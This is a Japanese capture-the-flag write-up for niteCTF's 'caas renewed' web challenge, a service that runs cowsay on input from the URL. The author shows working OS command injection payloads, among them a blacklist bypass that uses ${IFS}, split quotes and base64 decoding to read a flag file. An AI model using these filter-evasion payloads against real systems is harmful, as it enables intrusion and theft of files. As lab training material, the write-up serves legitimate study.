 # caas renewed:web:352pts
moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo moo etc moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo moo etc moo moo moo moo etc/cowsay/falg.txt  
[http://caas.web.nitectf.live/](http://caas.web.nitectf.live/)  

[caasRenewed.zip](caasRenewed.zip)  

# Solution
URLとファイルが渡される。  
![site.png](site/site.png)  
```bash
$ curl 'http://caas.web.nitectf.live/cowsay/satoki'
 ________
< satoki >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
cowsayコマンドを実行するサービスのようだ。  
```bash
$ curl 'http://caas.web.nitectf.live/cowsay/satoki;pwd'
 ________
< satoki >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
/usr/games
```
OSコマンドインジェクションが可能である。  
問題文より`/etc/cowsay/falg.txt`にフラグがあるようだが、URL経由なので`/`が渡せない。  
さらに配布されたファイルを見ると、`whitelisted.txt`と`blacklist.txt`が含まれていた。  
ブラックリスト形式でブロックしているようだ。  
```bash
$ curl 'http://caas.web.nitectf.live/cowsay/satoki;printenv'
 ___________________________
< Whoops! I cannot say that >
 ---------------------------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```
ここで`""`をコマンドの途中に挿入できるテクニックを思い出す。  
スペースは`${IFS}`とし、base64をうまく使って`/`を回避してファイル名を指定すればよい。  
以下のように行う(ブラックリストの`sz`も`""`で回避してやる)。  
```bash
$ curl --path-as-is 'http://caas.web.nitectf.live/cowsay/satoki;cat${IFS}$(echo${IFS}"L2V0Yy9jb3dzYXkvZmFs""Zy50eHQ"|b""ase64${IFS}-d);pwd'
 ________
< satoki >
 --------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}
/usr/games
```
flagが得られた。  

## nite{9wd_t0_th3_r35cu3_dp54kf_ud9j3od3w}